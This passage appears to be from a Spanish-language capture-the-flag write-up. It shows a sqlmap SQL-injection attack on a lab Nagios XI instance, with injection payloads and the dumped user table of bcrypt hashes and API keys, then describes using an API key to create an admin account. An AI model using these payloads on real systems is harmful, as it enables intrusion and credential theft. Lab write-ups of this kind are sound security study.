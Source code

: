 ~~~bashsqlmap -u 'https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php' --cookie='nagiosxi=o5n5922s0tn7e2pkstsbqc7jgo' --data='action=acknowledge_banner_message&id=3' -p "id" --level 5 --risk 3 --dump -D nagiosxi -T xi_users -C username,password,name,api_key
    Payload: action=acknowledge_banner_message&id=(SELECT (CASE WHEN (1120=1120) THEN 3 ELSE (SELECT 3392 UNION SELECT 9122) END))

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: action=acknowledge_banner_message&id=3 OR (SELECT 2307 FROM(SELECT COUNT(*),CONCAT(0x7178767071,(SELECT (ELT(2307=2307,1))),0x71706a7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: action=acknowledge_banner_message&id=3 AND (SELECT 3621 FROM (SELECT(SLEEP(5)))QGwC)
---
[19:24:06] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.56
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[19:24:06] [INFO] fetching entries of column(s) '`name`,api_key,password,username' for table 'xi_users' in database 'nagiosxi'
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] y
[19:24:09] [INFO] retrieved: 'Nagios Administrator'
[19:24:10] [INFO] retrieved: 'IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL'
[19:24:12] [INFO] retrieved: '$2a$10$825c1eec29c150b118fe7unSfxq80cf7tHwC0J0BG2qZiNzWRUx2C'
[19:24:12] [INFO] retrieved: 'nagiosadmin'
[19:24:13] [INFO] retrieved: 'svc'
[19:24:14] [INFO] retrieved: '2huuT2u2QIPqFuJHnkPEEuibGJaJIcHCFDpDb29qSFVlbdO4HJkjfg2VpDNE3PEK'
[19:24:16] [INFO] retrieved: '$2a$10$12edac88347093fcfd392Oun0w66aoRVCrKMPBydaUfgsgAOUHSbK'
[19:24:16] [INFO] retrieved: 'svc'
Database: nagiosxi
Table: xi_users
[2 entries]
+----------------------+-------------+--------------------------------------------------------------+------------------------------------------------------------------+
| name                 | username    | password                                                     | api_key                                                          |
+----------------------+-------------+--------------------------------------------------------------+------------------------------------------------------------------+
| Nagios Administrator | nagiosadmin | $2a$10$825c1eec29c150b118fe7unSfxq80cf7tHwC0J0BG2qZiNzWRUx2C | IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL |
| svc                  | svc         | $2a$10$12edac88347093fcfd392Oun0w66aoRVCrKMPBydaUfgsgAOUHSbK | 2huuT2u2QIPqFuJHnkPEEuibGJaJIcHCFDpDb29qSFVlbdO4HJkjfg2VpDNE3PEK |
+----------------------+-------------+--------------------------------------------------------------+------------------------------------------------------------------+

[19:24:16] [INFO] table 'nagiosxi.xi_users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/nagios.monitored.htb/dump/nagiosxi/xi_users.csv'
[19:24:16] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/nagios.monitored.htb'
[19:24:16] [WARNING] your sqlmap version is outdated
~~~
Se dicha forma se puede ver que se tienen dos usuarios, uno que es svc y otro admin, al intentar descifrar sus contraseñas esto no es posible, asi que se busca en internet alguna otra forma de autenticarse. En el mismo exploit del principio (https://www.exploit-db.com/exploits/51925) dice que se puede utilizar la "api_key" para crear otro usuario pero con privilegios de admin, asi que se replica esto.
